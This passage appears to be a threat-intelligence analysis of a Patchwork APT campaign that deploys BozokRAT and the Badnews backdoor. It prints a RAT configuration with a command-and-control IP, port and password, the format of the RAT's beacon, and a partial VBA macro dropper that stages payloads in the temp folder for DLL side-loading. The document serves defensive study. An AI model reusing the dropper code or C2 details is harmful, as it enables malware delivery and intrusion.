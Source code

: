 <h4>That interesting to note that the first algorithm have been used by the Iron group in reusing the leak of the HackingTeam’s “core” library. Probably added later by the code knowing that the RAT code can be readily available and that the attacker likes to use tools and techniques from Chinese groups. This explains the detection of the strings also used by Iron Tiger group for theirs malwares.</h4>

<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Indian/APT/Patchwork/2020-07-23/Pictures/BozokRAT/matchalgo2.png"></img></center>
<center><img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Indian/APT/Patchwork/2020-07-23/Pictures/BozokRAT/matchalgo1.png"></img></center>

<h4>We can see the ID, the password used for the communications and the version of the BozokRAT (1.4.1).</h4>

```
String that the configuration from memory dump (username, payload, port, IP, reference...)

TestServer|4NCwiOVL7rfHl|server.exe||ext.dat|mypass|0|0|0|0|0|4040|185.157.78.135*|0|

From dump PCAP (debug):

zUSER-PC|admin|TestServer|ENU|5|141|0|2|mypass|40|Libraries

[LengthofData]Hostname|Username|ID|LocaleInfo|OSVersion|RATVersion|0|2|ConnectionPassword|IdleTime|ActiveWindowName
```

<h4>This RAT, that used by the APT group called admin@338 who attacked between 2013 and 2016 in focusing financially, economic, and trade policy sectors. Now, this RAT can found easily on the web and markets.</h4>

<h4>But on the comments of the macro, we can note that the payload reuse the same algorithm that that use Patchwork in 2016 (which targeted China) for drops the Badnews backdoor on the system.That used the vulnerable legit dll for load the Badnews backdoor by side-loading method. This don't have been uploaded on any sandbox platform and don't have a public reference that this IOC that used on an operation in the past (early June 2020). However, a reference to TTPs and different hash can be found on a report of and attack against china by Patchwork at the same time that the macro algorithm in 2016.</h4>

```vb
Public Function DropPayloads() As Variant
    Set sh = CreateObject("WScript.Shell")
    Dim wshell, Path_Payload, Path_Unused, Path_Base, Path_SideDLL, Path_legit, Temp_Folder, Path_APP, Appdata_Folder, ScriptingObj, ShObj
    Set wshell = CreateObject("WScript.Shell").Environment("PROCESS")
    Temp_Folder = wshell("TEMP")
    Set ScriptingObj = CreateObject("Scripting.FileSystemObject")
    Path_Payload = Temp_Folder & "\micro"
    'Path_Unused = Temp_Folder & "\jl"
    'Path_Base = Temp_Folder & "\ms"
    'BasePayload = BasePayload & ms1 -> msvcr71.dll
    'BasePayload = BasePayload & ms2
    'BasePayload = BasePayload & ms3
    'BasePayload = BasePayload & ms4
    'BasePayload = BasePayload & ms5
    'BasePayload = BasePayload & ms6
    'BasePayload = BasePayload & ms7
    'BasePayload = BasePayload & ms8
    'BasePayload = BasePayload & ms9
    'BasePayload = BasePayload & ms10
    'BasePayload = BasePayload & ms11
    'UnusedPayload = UnusedPayload & jl1 -> Badnews Backdoor
    'UnusedPayload = UnusedPayload & jl2
    'UnusedPayload = UnusedPayload & jl3
    'UnusedPayload = UnusedPayload & jl4
    'UnusedPayload = UnusedPayload & jl5
    Payload = Payload & mi1
    Payload = Payload & mi2
```